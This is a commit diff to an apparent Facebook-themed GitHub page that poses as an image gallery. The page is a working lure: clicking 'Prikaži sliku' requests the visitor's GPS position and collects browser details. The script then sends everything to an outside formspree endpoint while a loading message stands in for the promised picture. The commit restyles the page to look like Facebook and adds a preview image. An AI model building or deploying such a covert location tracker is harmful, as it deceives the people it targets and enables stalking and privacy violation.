

Before and after one commit to wotb339/Facebook-Jovana-M., a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; placeholder pictures from the web are drawn by us.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,23 +2,95 @@
 <html lang="bs">
 <head>
   <meta charset="UTF-8">
-  <title>Pogledaj sliku</title>
+  <title>Pogledaj sadržaj</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+
   <style>
-    body { font-family: Arial, sans-serif; padding: 20px; text-align: center; }
-    button { padding: 14px 20px; font-size: 18px; cursor: pointer; }
+    body {
+      margin: 0;
+      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Arial;
+      background: #f0f2f5;
+    }
+
+    .container {
+      max-width: 400px;
+      margin: 60px auto;
+      background: white;
+      border-radius: 12px;
+      box-shadow: 0 4px 20px rgba(0,0,0,0.1);
+      overflow: hidden;
+    }
+
+    .header {
+      background: #1877f2;
+      color: white;
+      padding: 16px;
+      font-size: 18px;
+      font-weight: bold;
+      text-align: center;
+    }
+
+    .content {
+      padding: 20px;
+      text-align: center;
+    }
+
+    .content img {
+      width: 100%;
+      border-radius: 8px;
+      margin-bottom: 15px;
+    }
+
+    .title {
+      font-size: 18px;
+      margin-bottom: 10px;
+      font-weight: 500;
+    }
+
+    .button {
+      background: #1877f2;
+      color: white;
+      border: none;
+      padding: 14px;
+      width: 100%;
+      border-radius: 8px;
+      font-size: 16px;
+      cursor: pointer;
+    }
+
+    .button:hover {
+      background: #166fe5;
+    }
+
+    .status {
+      margin-top: 10px;
+      font-size: 14px;
+      color: gray;
+    }
   </style>
 </head>
+
 <body>
 
-  <h2>Klikni da vidiš sliku</h2>
-  <button onclick="startCheck()">Prikaži sliku</button>
-  <p id="status"></p>
+<div class="container">
+  <div class="header">Galerija</div>
+
+  <div class="content">
+    <img src="https://via.placeholder.com/400x250" alt="Preview">
+
+    <div class="title">Klikni da vidiš sliku</div>
+
+    <button class="button" onclick="start()">Prikaži sliku</button>
+
+    <div class="status" id="status"></div>
+  </div>
+</div>
 
 <script>
-    async function startCheck() {
+async function start() {
   document.getElementById("status").textContent = "Učitavanje...";
 
-      const data = {
+  let data = {
     userAgent: navigator.userAgent,
     platform: navigator.platform,
     language: navigator.language,
@@ -26,26 +98,24 @@
     time: new Date().toLocaleString()
   };
 
-      // GPS (Popup)
+  // GPS
   if (navigator.geolocation) {
     navigator.geolocation.getCurrentPosition(
-          function(position) {
-            data.lat = position.coords.latitude;
-            data.lon = position.coords.longitude;
-
-            sendData(data);
+      function(pos) {
+        data.lat = pos.coords.latitude;
+        data.lon = pos.coords.longitude;
+        send(data);
       },
-          function(error) {
-            data.gps = "Nije dozvoljeno";
-            sendData(data);
+      function() {
+        send(data);
       }
     );
   } else {
-        sendData(data);
+    send(data);
   }
 }
 
-    function sendData(data) {
+function send(data) {
   fetch("https://formspree.io/f/mnjlyqqy", {
     method: "POST",
     headers: {
@@ -54,7 +124,7 @@
     body: JSON.stringify(data)
   });
 
-      document.getElementById("status").textContent = "Slika se učitava...";
+  document.getElementById("status").textContent = "Sadržaj se učitava...";
 }
 </script>
 
```
Lines whose indentation alone changed are shown as unchanged.
